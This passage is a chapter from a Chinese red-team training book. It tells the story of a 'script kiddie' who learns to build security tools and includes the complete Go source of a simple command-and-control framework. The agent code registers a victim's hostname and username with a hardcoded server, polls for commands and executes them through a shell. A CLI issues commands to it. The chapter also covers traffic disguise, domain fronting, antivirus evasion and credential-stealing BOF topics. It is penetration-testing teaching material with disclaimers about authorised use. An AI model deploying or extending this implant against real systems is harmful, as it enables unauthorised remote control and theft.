	fmt.Println("[*] C2服务端启动，监听 8080 端口")
	r.Run(":8080")
}

func generateID() string {
	return fmt.Sprintf("%d", time.Now().UnixNano())
}
```

Agent的核心代码（精简版）：

```go
// c2_agent.go
// C2 Agent v0.1
// 作者：阿杰
package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"io"
	"net/http"
	"os/exec"
	"runtime"
	"time"
)

type Task struct {
	ID      string `json:"id"`
	Command string `json:"command"`
	Args    string `json:"args"`
}

type Result struct {
	TaskID string `json:"task_id"`
	Output string `json:"output"`
	Error  string `json:"error"`
}

const (
	ServerURL = "http://1.2.3.4:8080"
	Interval  = 5 * time.Second
)

var agentID string

func main() {
	// 1. 注册
	register()

	// 2. 心跳循环
	for {
		heartbeat()
		time.Sleep(Interval)
	}
}

func register() {
	info := map[string]string{
		"hostname": getHostname(),
		"os":       runtime.GOOS,
		"username": getUsername(),
	}

	data, _ := json.Marshal(info)
	resp, err := http.Post(ServerURL+"/api/register", "application/json", bytes.NewBuffer(data))
	if err != nil {
		fmt.Println("[-] 注册失败:", err)
		return
	}
	defer resp.Body.Close()

	var result struct {
		ID string `json:"id"`
	}
	json.NewDecoder(resp.Body).Decode(&result)
	agentID = result.ID
	fmt.Println("[+] 注册成功，Agent ID:", agentID)
}

func heartbeat() {
	// 获取任务
	resp, err := http.Get(fmt.Sprintf("%s/api/heartbeat/%s", ServerURL, agentID))
	if err != nil {
		return
	}
	defer resp.Body.Close()

	var data struct {
		Tasks []Task `json:"tasks"`
	}
	json.NewDecoder(resp.Body).Decode(&data)

	// 执行任务
	for _, task := range data.Tasks {
		output := executeCommand(task.Command, task.Args)
		submitResult(task.ID, output)
	}
}

func executeCommand(command, args string) string {
	var cmd *exec.Cmd
	if runtime.GOOS == "windows" {
		cmd = exec.Command("cmd", "/c", command+" "+args)
	} else {
		cmd = exec.Command("sh", "-c", command+" "+args)
	}

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Sprintf("Error: %v\nOutput: %s", err, string(output))
	}
	return string(output)
}

func submitResult(taskID, output string) {
	result := Result{
		TaskID: taskID,
		Output: output,
	}

	data, _ := json.Marshal(result)
	http.Post(fmt.Sprintf("%s/api/result/%s", ServerURL, agentID),
		"application/json", bytes.NewBuffer(data))
}

func getHostname() string {
	out, _ := exec.Command("hostname").Output()
	return string(bytes.TrimSpace(out))
}

func getUsername() string {
	out, _ := exec.Command("whoami").Output()
	return string(bytes.TrimSpace(out))
}
```

客户端CLI（精简版）：

```go
// c2_cli.go
// C2客户端 v0.1
// 作者：阿杰
package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"io"
	"net/http"
	"os"
	"strings"
)

const ServerURL = "http://1.2.3.4:8080"

func main() {
	fmt.Println("[*] C2客户端启动")
	fmt.Println("[*] 输入 help 查看帮助")

	for {
		fmt.Print("c2> ")
		var input string
		fmt.Scanln(&input)

		args := strings.Fields(input)
		if len(args) == 0 {
			continue
		}

		switch args[0] {
		case "help":
			printHelp()
		case "agents":
			listAgents()
		case "exec":
			if len(args) < 3 {
				fmt.Println("用法: exec <agent_id> <command>")
				continue
			}
			sendTask(args[1], strings.Join(args[2:], " "))
		case "exit":
			return
		default:
			fmt.Println("未知命令，输入 help 查看帮助")
		}
	}
}

func printHelp() {
	fmt.Println("命令列表:")
	fmt.Println("  agents         - 列出所有Agent")
	fmt.Println("  exec <id> <cmd> - 给指定Agent下发命令")
	fmt.Println("  exit           - 退出")
}

func listAgents() {
	resp, err := http.Get(ServerURL + "/cli/agents")
	if err != nil {
		fmt.Println("[-] 请求失败:", err)
		return
	}
	defer resp.Body.Close()

	body, _ := io.ReadAll(resp.Body)
	fmt.Println(string(body))
}

func sendTask(agentID, command string) {
	task := map[string]string{"command": command}
	data, _ := json.Marshal(task)

	resp, err := http.Post(fmt.Sprintf("%s/cli/task/%s", ServerURL, agentID),
		"application/json", bytes.NewBuffer(data))
	if err != nil {
		fmt.Println("[-] 请求失败:", err)
		return
	}
	defer resp.Body.Close()
	fmt.Println("[+] 任务已下发")
}

// 其他辅助函数...
```

```
🎯 C2框架 v0.1 的功能：

【服务端】
- Agent注册：接收Agent的注册请求
- 心跳管理：接收Agent心跳，下发任务
- 结果收集：接收Agent回传的结果
- 客户端API：提供给CLI调用的接口

【Agent】
- 注册：向服务端注册
- 心跳：定期向服务端请求任务
- 命令执行：执行下发的命令
- 结果回传：把执行结果回传给服务端

【客户端CLI】
- agents：列出所有在线Agent
- exec <id> <cmd>：给指定Agent下发命令

【测试】
- 在Windows上编译Agent，运行，能注册到服务端 ✓
- 在Linux上编译Agent，运行，能注册到服务端 ✓
- 在麒麟OS上编译Agent，运行，能注册到服务端 ✓（这就是国产化适配！）
- 通过CLI下发命令，Agent能执行并回传结果 ✓
```

> 💡 **C2框架开发的注意事项：**
> 1. **加密**：v0.1我用的是明文HTTP，实际使用必须加密（HTTPS + AES）
> 2. **隐蔽**：流量要伪装，避免被检测（域名前置、流量混淆）
> 3. **认证**：服务端要认证Agent，防止被冒充
> 4. **多协议**：实际C2要支持多种协议（HTTP/DNS/TCP/ICMP）
> 5. **多平台**：Agent要支持多平台编译（Windows/Linux/macOS/麒麟OS）
> 6. **免杀**：Agent要做免杀处理
> 7. **法律**：C2框架只能用于授权测试，开源要加免责声明

我把C2框架发给老吴看，老吴这次的回复让我非常激动：

```
👨‍💼 老吴：
"牛逼啊阿杰！
 一年前你还在用Python写端口扫描器，
 现在都能自己写C2了！
 进步神速！

 这个v0.1虽然简陋，但是核心流程都跑通了：
 注册 → 心跳 → 下发 → 执行 → 回传
 这就是C2的本质。

 接下来你可以：
 1. 加加密（HTTPS + AES）
 2. 加流量伪装（伪装成正常HTTP流量）
 3. 加文件传输（上传/下载文件）
 4. 加多协议（DNS隧道）
 5. 加GUI（用Electron或者Web界面）
 6. 加Agent免杀

 但是记住，这个C2只能用于学习和授权测试！
 开源的话，要加免责声明。
 不然可能被滥用，你也会有法律风险。

 另外跟你说个事：
 我们公司准备成立一个'工具研发组'，
 之前就我一个人，现在准备扩招。
 你要不要来？
 待遇比你现在好，主要做安全工具开发。
 以你现在的水平，完全够格。"
```

看到老吴的"邀请"，我又激动了。

> "老吴让我去工具研发组？！
> 一年前，我还是个被老吴的'自研工具'救场的'脚本小子'，
> 一年后，老吴主动邀请我去搞工具研发！
> 这一年，我到底成长了多少？"

---

## 📚 案例讲解

### 案例1：为什么脚本小子需要学编程？

**背景**：
本章的主人公阿杰，原本是个典型的"脚本小子"，会用工具但不会写工具。在护网中遇到国产化环境，主流工具失效，被同事的"自研工具"教育了。

**脚本小子的局限**：

```
📉 脚本小子的天花板：

1. 遇到新环境就抓瞎
   - 工具不适应，束手无策
   - 比如国产化环境、定制系统、特殊协议

2. 遇到新漏洞没辙
   - 别人没出EXP，自己写不出来
   - 只能等"大佬"放EXP

3. 工具出问题不会修
   - 工具报错了，只能换工具
   - 看不懂源码，改不了

4. 想做自动化做不了
   - 大量重复操作，只会手动
   - 不会写脚本自动化

5. 职业天花板低
   - "工具党"很容易被替代
   - 薪资上不去
```

**学编程后的变化**：

```
📈 学编程后的提升：

1. 能造工具，不再依赖别人
   - 遇到新环境，自己写工具适配
   - 遇到新漏洞，自己写EXP

2. 能改工具，灵活应对
   - 工具有bug，自己改
   - 工具功能不够，自己加

3. 能自动化，效率倍增
   - 重复操作，写脚本自动化
   - 大规模任务，写工具批量处理

4. 能开源，建立影响力
   - 开源项目，积累名气
   - 跳槽、晋升的"硬通货"

5. 职业天花板高
   - 工具开发工程师，比一般渗透测试薪资高
   - 安全研究员，更需要编程能力
```

**建议**：
1. 从Python开始，入门快
2. 学完Python学Go，追求性能
3. 多动手写代码，不要光看教程
4. 从"造轮子"开始，重写已有的工具
5. 开源出去，接受社区反馈

### 案例2：国产化环境下的安全工具适配

**背景**：
随着"信创"（信息技术应用创新）的推进，越来越多的政府、央企、金融系统采用国产化环境。主流安全工具（多为国外开发）对国产化环境支持不足。

**国产化环境的特点**：

```
🇨🇳 国产化环境的关键词：

【国产操作系统】
- 麒麟OS（银河麒麟、中标麒麟、openKylin）
- 统信UOS
- 欧拉（openEuler）
- 龙蜥（Anolis OS）
- 深度（deepin）

【国产数据库】
- 达梦数据库（DM）
- 人大金仓（Kingbase）
- 南大通用（GBase）
- OceanBase
- TiDB
- GaussDB（华为）

【国产中间件】
- 东方通（TongWeb）
- 宝兰德（BES）
- 金蝶Apusic
- 中创InforSuite

【国产办公软件】
- WPS Office
- 永中Office
- 福昕PDF

【国产浏览器】
- 奇安信浏览器
- 红莲花浏览器
- 星愿浏览器
```

**主流工具的失效场景**：

```
⚠️ 主流工具失效清单：

| 工具 | 失效场景 | 原因 |
|------|---------|------|
| Nmap | 国产OS指纹识别 | 指纹库不含国产OS特征 |
| SQLMap | 达梦/人大金仓注入 | 不识别这些数据库 |
| nuclei | 国产中间件POC | POC库无对应模板 |
| MSF | 国产软件exploit | 无相关模块 |
| mimikatz | 麒麟OS抓密码 | 仅支持Windows |
| BloodHound | 国产域控 | 依赖AD域 |
| 哥斯拉 | 国产OS Webshell | 部分类型不兼容 |
```

**自研工具的思路**：

```
🛠️ 国产化工具开发思路：

1. 信息收集类
   - 国产OS指纹识别
   - 国产数据库识别
   - 国产中间件识别

2. 漏洞利用类
   - 针对国产数据库的注入工具
   - 针对国产中间件的EXP
   - 针对国产OS的提权工具

3. 后渗透类
   - 国产OS的信息收集
   - 国产OS的权限维持
   - 国产OS的横向移动

4. 适配主流工具
   - 给SQLMap写国产数据库的tamper
   - 给nuclei写国产软件的POC模板
   - 给MSF写国产软件的exploit模块
```

**防御启示**：
国产化环境也需要完善的安全防护，不能因为"国产"就放松警惕。蓝队也要研究国产化环境的安全防护。

### 案例3：开源安全工具的"差异化"策略

**背景**：
阿杰开源的端口扫描器LiteScan，能在6个月内突破1000 Star，关键在于"差异化"。

**差异化的几个方向**：

```
🎯 安全工具开源的差异化策略：

1. 功能差异化
   - 主流工具没有的功能
   - 阿杰的例子：国产化适配（识别麒麟OS、达梦数据库等）
   - 主流扫描器如naabu、nmap都不识别国产软件指纹

2. 性能差异化
   - 比主流工具更快
   - 或者更省资源
   - Go语言的并发优势

3. 易用性差异化
   - 更简单的用法
   - 更友好的输出
   - 更好的文档

4. 场景差异化
   - 针对特定场景优化
   - 比如针对内网扫描优化
   - 比如针对国产化环境优化

5. 生态差异化
   - 跟其他工具集成
   - 提供API/SDK
   - 支持插件扩展
```

**开源项目成功的几个因素**：

```
📈 开源项目成功的因素：

1. 解决真实痛点
   - 你的工具要解决一个真实的问题
   - 阿杰的工具解决了"国产化环境扫描"这个痛点

2. 差异化定位
   - 不要做"又一个XXX"
   - 要有自己的特色

3. 文档质量
   - README是项目的"门面"
   - 文档好的项目，更容易被使用

4. 持续维护
   - 及时回复issue
   - 接受PR
   - 持续迭代

5. 社区运营
   - 在安全社区宣传
   - 跟其他项目联动
   - 建立用户群

6. 时机
   - 信创大背景下，国产化适配正是热点
   - 阿杰的工具踩中了这个"风口"
```

### 案例4：BOF开发实战——从whoami到EDR检测

**背景**：
阿杰从最简单的whoami BOF开始，逐步开发出EDR检测BOF，掌握了BOF开发的核心技术。

**BOF开发的进阶路径**：

```
🛤️ BOF开发学习路径：

第1阶段：入门
- 理解BOF的原理（COFF格式、内存加载）
- 写第一个BOF（whoami）
- 学习BOF API（BeaconPrintf、BeaconDataParse等）
- 学习动态获取Windows API

第2阶段：进阶
- 枚举类BOF（进程、服务、共享、用户）
- 检测类BOF（EDR检测、AV检测）
- 文件操作类BOF（读写文件、遍历目录）
- 网络类BOF（网络连接、端口扫描）

第3阶段：高级
- 内存操作类BOF（注入、读取进程内存）
- 持久化类BOF（注册表、计划任务、服务）
- 横向移动类BOF（PTH、PTT、WMI执行）
- 信息窃取类BOF（凭证窃取、浏览器数据）

第4阶段：专家
- 反检测BOF（绕过EDR的Hook）
- 内核交互BOF
- 自定义协议BOF
- BOF框架开发
```

**BOF vs 传统exe的对比**：

```
📊 BOF vs 传统exe：

| 维度 | BOF | 传统exe |
|------|-----|---------|
| 隐蔽性 | 高（不开新进程） | 低（开新进程） |
| 落地 | 不落地（内存执行） | 落地（磁盘文件） |
| 检测难度 | 难（EDR难以检测） | 易（EDR容易检测） |
| 开发难度 | 高（不能用标准库） | 低（可以用任何库） |
| 调试难度 | 高（不能直接调试） | 低（可以断点调试） |
| 功能复杂度 | 低（受限于BOF框架） | 高（无限制） |
| 适用场景 | 轻量级任务 | 复杂任务 |

结论：
- 轻量级、需要隐蔽的任务 → 用BOF
- 复杂的、功能多的任务 → 用exe
- 实战中两者结合使用
```

### 案例5：C2框架的核心设计

**背景**：
阿杰开发的C2框架v0.1，虽然简陋，但是涵盖了C2的核心设计。

**C2框架的核心组件**：

```
🏗️ C2框架的核心组件：

1. Listener（监听器）
   - 负责接收Agent的连接
   - 支持多种协议（HTTP/HTTPS/DNS/TCP）
   - 管理多个Agent会话

2. Agent Manager（Agent管理器）
   - 管理所有Agent的状态
   - 维护任务队列
   - 收集执行结果
   - 处理Agent上下线

3. Implant（Agent/被控端）
   - 在目标机器上运行
   - 定期回连服务端
   - 执行下发的命令
   - 回传执行结果

4. Communication Protocol（通信协议）
   - Agent和服务端之间的通信方式
   - HTTP/HTTPS最常见
   - DNS隧道用于绕过出网限制
   - ICMP隧道用于极端环境

5. Crypto（加密层）
   - 通信加密（AES、RSA）
   - 流量伪装（伪装成正常HTTP流量）
   - 防止流量被分析

6. Client（客户端）
   - 操作员使用的界面
   - CLI或GUI
   - 管理Agent、下发任务、查看结果
```

**C2流量隐蔽的几个层次**：

```
🔒 C2流量隐蔽层次：

第1层：加密（基础）
- HTTPS加密通信
- 防止明文被抓包

第2层：伪装（进阶）
- 伪装成正常HTTP流量
- 模拟合法网站的请求/响应
- 用合法域名做重定向

第3层：域名前置（高级）
- Domain Fronting技术
- 用CDN隐藏真实C2
- 流量看起来像访问大厂网站

第4层：协议隧道（专家）
- DNS隧道（DNS over HTTPS）
- ICMP隧道
- WebSocket隧道
- 自定义协议

第5层：行为模拟（大师）
- 模拟正常用户的行为模式
- 心跳间隔随机化
- 流量大小正常化
- 不触发行为分析告警
```

---

## ✏️ 课后习题

### 选择题（10道）

1. "脚本小子"（Script Kiddie）指的是？
   - A. 写脚本的安全专家
   - B. 只会用别人工具但不懂原理的人
   - C. 学习脚本编程的初学者
   - D. 开发安全工具的工程师

2. 以下哪个不是国产操作系统？
   - A. 麒麟OS
   - B. 统信UOS
   - C. Ubuntu
   - D. 欧拉（openEuler）

3. SQLMap不能识别以下哪个数据库？
   - A. MySQL
   - B. 达梦数据库
   - C. PostgreSQL
   - D. MSSQL

4. Python的GIL全称是？
   - A. Global Interpreter Lock
   - B. General Input Library
   - C. Generic Interface Layer
   - D. Global Internet Link

5. Go语言的并发模型基于？
   - A. 多线程
   - B. 多进程
   - C. goroutine + channel
   - D. 异步IO

6. BOF的全称是？
   - A. Beacon Object File
   - B. Binary Output Format
   - C. Buffer Overflow File
   - D. Basic Object Framework

7. Cobalt Strike的插件脚本语言叫？
   - A. Python
   - B. JavaScript
   - C. Aggressor Script
   - D. Ruby

8. 以下哪个不是Go在安全工具开发中的优势？
   - A. 性能好
   - B. 编译成单文件
   - C. 跨平台编译
   - D. 运行时需要虚拟机

9. C2框架中，Agent定期回连服务端的行为叫？
   - A. 注册
   - B. 心跳
   - C. 横向移动
   - D. 权限维持

10. 阿杰开源的端口扫描器叫什么？
    - A. Nmap
    - B. naabu
    - C. LiteScan
    - D. masscan

### 填空题（10道）

1. 脚本小子的核心问题是只会______工具，不会______工具。

2. 国产化环境中常见的国产操作系统有______、______等（至少写2个）。

3. 国产化环境中常见的国产数据库有______、______等（至少写2个）。

4. Python中用于多线程的模块是______，用于线程安全队列的是______。

5. Go语言中用于并发的关键字是______，用于goroutine间通信的是______。

6. BOF是______格式文件，在CS的______进程内执行。

7. Cobalt Strike的插件脚本基于______语言。

8. 阿杰学编程的顺序是先学______，再学______。

9. C2框架的三个核心组件是______、______、______。

10. 开源安全工具的成功因素包括______、______、______（至少写3个）。

### 简答题（6道）

1. 为什么主流安全工具在国产化环境下会失效？请从操作系统、数据库、中间件三个层面分析。

2. Python和Go在安全工具开发中各自的优缺点是什么？什么场景下该用哪个？

3. 什么是BOF？BOF相比传统exe有什么优势和劣势？

4. C2框架的核心组件有哪些？各有什么作用？

5. 一个脚本小子要转型为工具开发大神，应该怎么规划学习路径？

6. 开源一个安全工具，需要做哪些准备工作？如何提高项目的Star数？

### 实操题（4道）

1. 用Python写一个简单的多线程端口扫描器，要求：
   - 支持命令行参数（-t 目标IP，-p 端口范围，-w 线程数）
   - 支持多线程扫描
   - 结果保存到文件
   （**注意：只能扫描自己授权的测试环境！**）

2. 用Go重写上面的端口扫描器，对比Python版本和Go版本的性能差异。

3. 思考：如果你要开发一个针对达梦数据库的SQL注入工具，需要考虑哪些技术点？
   （提示：从达梦的SQL语法、系统表、注入payload设计等方面思考）

4. 思考：如果你要开源一个安全工具，你会选择做什么工具？如何做差异化定位？
   （提示：结合自己的工作需求，找一个"痛点"）

---

## 📝 本章小结

```
📚 本章核心知识点回顾：

【脚本小子的问题】
- 只会用工具，不会造工具
- 遇到特殊环境（如国产化）就抓瞎
- 职业天花板低，容易被替代
- 根本原因：缺乏编程能力

【国产化环境的挑战】
- 国产OS：麒麟OS、统信UOS、欧拉等
- 国产数据库：达梦、人大金仓、GBase等
- 国产中间件：东方通、宝兰德、金蝶Apusic等
- 主流工具（多为国外开发）不适配国产软件
- 解决方案：开发自研工具

【Python安全工具开发】
- Python适合写小工具、脚本、POC
- 核心库：socket、requests、threading、queue
- 多线程用threading，注意GIL限制
- 三个练手项目：端口扫描器、目录爆破、子域名收集

【Go安全工具开发】
- Go适合写高性能工具、C2、后门
- 并发模型：goroutine + channel
- 核心库：net、net/http、sync、encoding/json
- 优势：性能好、单文件部署、跨平台编译
- ProjectDiscovery全家桶都是Go写的

【开源安全工具】
- 找差异化定位（功能、性能、场景）
- 写好README
- 持续维护，回复issue
- 加免责声明
- 阿杰的LiteScan：6个月破1000 Star

【Cobalt Strike插件开发】
- 用Aggressor Script（基于Sleep语言）
- 可以自定义菜单、自动化操作
- 集成外部工具

【BOF开发】
- BOF = Beacon Object File
- 用C语言写，编译成COFF
- 在Beacon进程内执行，隐蔽性高
- 不能用标准C库，要用Windows API

【C2框架开发】
- 核心组件：Listener、Agent Manager、Implant、Client
- 通信协议：HTTP/HTTPS/DNS/TCP
- 加密：AES + RSA
- 隐蔽：流量伪装、域名前置
```

**图127-6 脚本小子到工具开发大神的成长路径**



```
💡 阿杰的成长心路历程：

1. 舒适区：用工具用得很溜，自以为是"技术骨干"
2. 受打击：护网中遇到国产化环境，被同事的"自研工具"教育
3. 反思：意识到"会用工具"和"会造工具"是天壤之别
4. 下决心：从零开始学编程，死磕到底
5. 入门：Python写第一个端口扫描器，虽然挫但是成就感满满
6. 进阶：学Go，追求性能，重写之前的工具
7. 突破：开源第一个工具，意外走红，突破1000 Star
8. 深入：CS插件、BOF、C2框架，越来越"硬核"
9. 逆袭：被老吴邀请加入工具研发组，薪资翻倍
10. 新起点：故事还在继续...
```

---

## 🔮 下篇预告

阿杰的故事，到这里只是上半场。

在上篇里，我们看到了一个脚本小子，如何通过死磕编程，成长为能造工具的开发者。

但是，故事还没有结束。

**下篇会讲什么？**

```
📖 下篇内容预告：

1. 阿杰加入工具研发组后的新挑战
   - 从"个人开发"到"团队开发"
   - 工具开发的工程化、规范化
   - 跟老吴的深度合作

2. 更高级的工具开发
   - 免杀工具开发（Shellcode加载器、EDR对抗）
   - 内核工具开发（Rootkit、驱动）
   - 人工智能在安全工具中的应用

3. 第二次护网的"复仇"
   - 又遇到国产化环境
   - 这次阿杰是"造工具"的人
   - 用自研工具大杀四方

4. 开源项目的持续运营
   - LiteScan从1000 Star到5000 Star
   - 商业化探索
   - 开源社区的运营

5. 成为圈内知名的工具开发大神
   - 在安全会议上演讲
   - 出书、写专栏
   - 培养后辈

6. 给后来者的建议
   - 学编程的路径
   - 学工具开发的路径
   - 开源项目的运营经验
   - 职业规划建议
```

```
🎭 结尾悬念：

老吴邀请阿杰加入工具研发组，阿杰会答应吗？
加入之后，又会遇到什么新的挑战？
那个曾经教育过阿杰的"国产化环境"，阿杰能"复仇"吗？
阿杰的C2框架，最终会发展成什么样？

这些问题的答案，都在下篇。

敬请期待：《脚本小子到工具开发大神（下）》
```

```
🎯 最后，送给大家一段话：

如果你也是个"脚本小子"，不要灰心。
阿杰的故事告诉我们：
- 没有人天生就会写代码
- 没有人天生就会造工具
- 只要你肯学，肯动手，肯死磕
- 你也能从"工具党"变成"工具开发"

技术这条路，从来不会辜负真正努力的人。
加油吧，少年！
我们山顶见！```

---

## 🔗 相关链接

- [⬅️ 上一章：内向技术宅到社工大师（下）](/redteam/day126-story-内向技术宅到社工大师下)
- [➡️ 下一章：脚本小子到工具开发大神（下）](/redteam/day128-story-脚本小子到工具开发大神下)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)